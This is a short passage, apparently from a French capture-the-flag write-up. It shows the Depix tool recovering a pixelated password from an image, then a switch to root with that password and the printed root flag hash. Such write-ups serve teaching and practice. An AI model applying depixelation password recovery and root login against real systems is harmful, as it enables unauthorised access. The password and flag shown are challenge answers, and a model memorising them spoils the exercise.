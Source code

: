 ```bash
python3 depix.py \
-p ./password.png \
-s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
-o ./password-output.png
```

On essaye le mot de passe pour se connecter en root et afficher le flag:

```bash
su
Password: sidefromsidetheothersidesidefromsidetheotherside
whoami
root
cd /root
ls
cleanup.sh
restart.sh
root.txt
cat root.txt
b390f94571b11bf6e7cb7c9061fcb113
```

![image](https://github.com/user-attachments/assets/81a2386c-4f0a-43de-998d-58196faab226)
